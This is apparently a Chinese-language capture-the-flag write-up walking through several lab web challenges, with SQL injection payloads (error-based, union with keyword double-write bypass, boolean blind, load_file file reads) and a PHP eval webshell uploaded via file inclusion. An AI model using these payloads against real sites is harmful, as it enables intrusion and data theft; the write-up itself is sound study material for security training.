这是一个神奇的登录框
网址：http://120.24.86.145:9001/sql/
看到登录框，网址又有sql，八成就是sql注入
试一下用户名输入admin’，没有报错，再试试admin”

发现报错了，果然存在sql注入，从报错信息就看出来用户名和密码都被双引号包裹
那么我们就可以用万能密码登录了
payloads:admin_name=admin&admin_passwd=1” or “1”=”1&submit=GO+GO+GO

应该是登录成功了，但是要我们换一个身份登录才能拿到flag
换个payloads:admin_name=AdMiNhEhE&admin_passwd=1” or “1”=”1&submit=GO+GO+GO
结果还是一样的，看来是只返回了用户名的信息，那干脆就直接利用报错注入注出信息试试
先爆库
payloads:admin_name=admin” and extractvalue(1,concat(0x3a,database(),0x3a))#&admin_passwd=&submit=GO+GO+GO
库名bugkusql1
爆表
payloads:admin_name=admin” and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))#&admin_passwd=&submit=GO+GO+GO

表名为flag1,whoami
爆flag1表下的列名
payloads:admin_name=admin” and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_name=’flag1’),0x3a))#&admin_passwd=&submit=GO+GO+GO

列名为flag1
最后爆flag1列下的数据
payloads:admin_name=admin” and extractvalue(1,concat(0x3a,(select group_concat(flag1) from flag1),0x3a))#&admin_passwd=&submit=GO+GO+GO

试一下这个是不是flag，发现错误，仔细看才发现flag太长了报错信息没显示全…
那再试试爆whoami表吧，看看能不能爆出密码
先爆whoami表下的列名：
payloads:admin_name=admin” and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_name=’whoami’),0x3a))#&admin_passwd=&submit=GO+GO+GO

列名为w_id,w_name,w_passwd
爆passwd
payloads:admin_name=admin” and extractvalue(1,concat(0x3a,(select w_passwd from whoami where w_name=’AdMiNhEhE’),0x3a))#&admin_passwd=&submit=GO+GO+GO
发现又太长了…
仔细一想，用万能密码登录时也是有返回信息的，为什么不用联合注入呢…
查询列数为2
payloads:admin_name=0” union select flag1,2 from flag1 #&admin_passwd=&submit=GO+GO+GO

输入flag{ed6b28e684817d9efcaf802979e57aea}，成功
多次
一进去页面发现url：http://120.24.86.145:9004/1ndex.php?id=1
就尝试修改id值，id=1,2,3,4,5到5的时候提示

存在sql注入漏洞，猜测是数字型注入，注入点是id
那试一下id=1’，显示error
猜测可能id被单引号包裹，输入id=1’%23，正确显示信息，那么接下来注出查询列数
输入id=1’ order by 3%23，显示error，将3改为2，又eroor，改为1，还是error，慌了…估计是把order 或者by给过滤了
试一下输入id=1’ ^ (length(‘order’)!=0)%23，显示error，说明不是order被过滤
再试一下输入id=1’ ^ (length(‘or’)!=0)%23

发现正确显示信息，说明or被过滤掉了，类似再尝试一下关键词and,select,union，发现都被过滤了
尝试一下双写可不可以绕过，输入id=1’ oorrder by 2%23

正确显示信息，说明可能是用函数str_replace进行过滤，那么双写即可绕过
输入id=1’ oorrder by 3%23，显示error，说明查询列数为2
接下来就是熟悉爆库
输入id=0’ uunionnion sselectelect 1,database()%23

数据库名：web1002-1
爆表名
输入id=0’ uunionnion sselectelect 1,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database()%23

表名：flag1,hint
爆列名
输入id=0’ uunionnion sselectelect 1,group_concat(column_name) from infoorrmation_schema.columns where table_name=’flag1’%23

列名：flag1,address
爆flag列下的数据
输入id=0’ uunionnion sselectelect 1,flag1 from flag1%23

提交flag{usOwycTju+FTUUzXosjr}发现错误，突然发现提交的地方提示我们flag有两个
就试着注出address列下的数据
输入id=0’ uunionnion sselectelect 1,address from flag1%23

好像发现了新大陆
点击访问下一关

页面的url提示oncemore，并且get参数又是id，猜测还是sql注入
输入id=1’

恩？好像隐约看到了报错信息，不过被背景挡住了，没事，看一下源代码

惊喜发现有报错信息，同时也看出来id被单引号包裹，接着试着注出查询列数
输入id=1’ order by 2%23，正常显示信息，输入id=1’ order by 3%23，报错。所以查询列数为2
接下来注库名
输入id=0’ union select 1,database()%23

发现union被过滤了，试着双写，没办法绕过
于是尝试extractvalue报错注入
输入id=1’ and extractvalue(1,concat(0x3a,database(),0x3a))%23

成功注入库名：web1002-2
输入id=1’ and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))%23

表名：class,flag2
输入id=1’ and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_name=’flag2’),0x3a))%23

flag2表下列名：flag2,address
输入id=1’ and extractvalue(1,concat(0x3a,(select flag2 from flag2),0x3a))%23
注出flag：flag{Bugku-sql_6s-2i-4t-bug}
将B改成小写b，提交成功
PHP_encrypt_1(ISCCCTF)
这题直接给了一个php源文件
1 |
|
(PS:可能题目文件出了问题，output没有写在源文件中)
审计后发现是一个加密的过程，给了最后的输出，需要我们自己编写解密的过程，根据加密的过程一步步解密，decrypt代码如下：
1 |
|
最后获得flag

文件包含2
网址：http://118.89.219.210:49166/
页面url：http://118.89.219.210:49166/index.php?file=hello.php
熟悉的文件包含，试一下利用php://filter读取index.php源码

天真！！！看来貌似过滤了什么，试一下读取hellp.php，还是一样的结果，看来这个方法行不通，怎么办呢，这时候看一下失败页面的源码

发现提示了文件upload.php
访问http://118.89.219.210:49166/upload.php
发现是文件上传，要求只能上传图片文件，burp抓包上传一句话试试

发现过滤了文件名和类型，但是因为有文件包含，我们只要能将一句话包含在文件上传上去就行，将php文件后缀修改为png，文件类型修改为image/png，上传成功后访问图片所在地址

可以看到代码显示了出来，说明是不符合php语法的代码，仔细看发现php代码开头的被过滤了
那么换一种方法，上传代码为<?=@eval($_POST[‘cmd’]);

上传成功，访问页面为空，说明代码成功执行
然后再用burp POST参数cmd执行命令

访问this_is_th3_F14g_154f65sd4g35f4d6f43.txt

获得flag
flag.php
网址：http://120.24.86.145:8002/flagphp/
点击页面Login按钮没反应，看一下源代码只是个按钮，用burp试着POST提交user和password参数也没有显示其他的东西，想到题目给的提示：hint，试着访问hint.php，没有结果，题目是flag.php，访问，也没有提示
一番思考，试着GET参数hint，没想到就给出了源代码
1 |
|
那就变成一道代码审计题了，要我们在COOKIE字段中添加ISecer参数，值是$KEY序列化后的值
先写个demo，把$KEY序列化后的值打印出来
1 |
|

然后用burp提交cookie

没反应…很奇怪，想了很久，看了好久源代码才发现，$KEY值是定义在最后面的，前面是为空的，所以应该提交空字符串的序列化值…很坑
空字符串序列化值：s:0:””;
再次burp提交

拿到flag
报错注入
网址：http://103.238.227.13:10088/
根据题目的提示，这是一个数字型注入，注入点为GET的参数id，过滤了关键词：空格，单引号，双引号，union，–
空格可以用%0a替代，union被过滤了那么就用题目的意思：报错注入，注释可以用%23代替–
直接输入?id=1%23试试

发现正常显示，那么id就没有被引号包裹，其实就无所谓单双引号被过滤了
那么我们就可以开始爆库了，输入：
?id=1%0aand%0aextractvalue(1,concat(0x3a,database(),0x3a))%23

数据库名为sql4
爆表，输入?id=1%0aand%0aextractvalue(1,concat(0x3a,(select%0agroup_concat(table_name)%0afrom%0ainformation_schema.tables%0awhere%0atable_schema=database()),0x3a))%23

表名为temp
爆列，输入?id=1%0aand%0aextractvalue(1,concat(0x3a,(select%0agroup_concat(column_name)%0afrom%0ainformation_schema.columns%0awhere%0atable_name=0x74656d70),0x3a))%23

列名为id,title
爆数据，输入?id=1%0aand%0aextractvalue(1,concat(0x3a,(select%0agroup_concat(title)%0afrom%0atemp),0x3a))%23

没发现flag…
说明flag不在数据库里，回到题目页面，又看到了提示，查询文件在/var/test/key_1.php
说明可能要用mysql的load_file函数读取文件内容，再通过hex函数转化为十六进制数
输入?id=1%0aand%0aextractvalue(1,concat(0x3a,hex(load_file(0x2f7661722f746573742f6b65795f312e706870)),0x3a))%23

可以看到没有全部读取，这就是extractvalue函数的缺点，只能读取32位
这时候就需要利用substr函数每次截取30位读
先读取前30位
输入?id=1%0aand%0aextractvalue(1,concat(0x3a,substr(hex(load_file(0x2f7661722f746573742f6b65795f312e706870)),1,30),0x3a))%23
再读取31~60位，输入?id=1%0aand%0aextractvalue(1,concat(0x3a,substr(hex(load_file(0x2f7661722f746573742f6b65795f312e706870)),31,30),0x3a))%23
依次类推
最后得到298位十六进制数
1 | 3C3F70687020666473616661736664736166696473616664736169666473616B666473616966647361666473616664736166647361666B6473613B6664736166647361667364616664736166617330686664736739466C61673A22373234396635613766643164653630326233306536663339616561363139336122667364616673616664736166647361666473616661203F3E0A |
转化成字符串得：
1 | fdsafasfdsafidsafdsaifdsakfdsaifdsafdsafdsafdsafkdsa;fdsafdsafsdafdsafas0hfdsg9Flag:"7249f5a7fd1de602b30e6f39aea6193a"fsdafsafdsafdsafdsafa |
得到 Flag:”7249f5a7fd1de602b30e6f39aea6193a”
login3(SKCTF)
网址：http://118.89.219.210:49167/
登录界面，随便输入一个用户名1，密码1，提示用户名不存在，输入admin,密码1，提示密码错误，猜测有检查用户名是否存在的判断，猜测注入点在admin,输入admin’，提示用户不存在，输入admin’#，提示密码错误，很显然admin被单引号包裹
那么理清思路，这是字符型注入，注入点在admin,admin被单引号包裹，题目提示我们这是一题基于布尔的盲注
那么我们试试输入admin’ and 1=1#，发现提示了出现非法字符,oh no ，我们直接输入and，同样提示出现非法字符，看来and被过滤了，那不用and了，我们用异或^
输入admin’^1#，提示用户名不存在，输入admin’^0#，提示密码错误，很好，那么就可以利用这个提示信息进行基于布尔的盲注
接下来就是搞定逻辑语句了，正常来说我们是用语句ascii(substr(database(),1,1))=数字，但是尝试就发现了，这题还过滤了逗号，等号，等号可以用不等号<>代替，那么用ascii(substr(database() from 1 for 1))=数字，这样可以吗，又发现for和空格被过滤了…
怎么办，借鉴了别人的思路，才发现mysql用ascii的参数是一个字符串时，会只计算字符串第一位的ascii值

如图所示，语句ascii(substr(database()from(1)))就可以输出数据库名第一位的ascii值
那么思路就很清晰了，根据输入admin’^(ascii(substr(database()from(数字1)))<>数字2)#，根据返回的信息，如果返回了”password error!” ，说明数字2就是数据库的第数字1位的ascii值
直接上脚本，注出数据库名：
1 | import requests |
数据库名：blindsql
本来按这个思路可以继续注表名的，但是发现information被过滤了，无奈，表和列名好像只能靠猜
看别人猜的表名为admin，列名为password，真是玄学…
那就直接爆password：
1 | import requests |
得password：51b7a76d51e70b419f60d3473fb6f900
还得拿去md5解密，解密得skctf123456

获得flag
网站被黑
网址：http://120.24.86.145:8002/webshell/
